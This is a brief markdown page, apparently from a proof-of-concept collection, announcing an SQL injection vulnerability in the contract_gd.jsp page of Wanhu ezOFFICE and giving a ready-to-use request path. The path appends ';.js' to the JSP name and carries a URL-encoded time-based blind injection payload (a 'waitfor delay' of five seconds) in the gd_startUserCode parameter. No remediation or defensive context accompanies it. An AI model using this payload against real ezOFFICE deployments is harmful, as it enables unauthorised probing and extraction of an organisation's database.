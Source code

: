 ## 万户ezOFFICE-contract_gd.jsp存在SQL注入漏洞


## poc
```
/defaultroot/modules/subsidiary/contract/contract_gd.jsp;.js?gd=1&gd_startUserCode=1%27%3Bwaitfor%20delay%20%270%3A0%3A5%27--
```

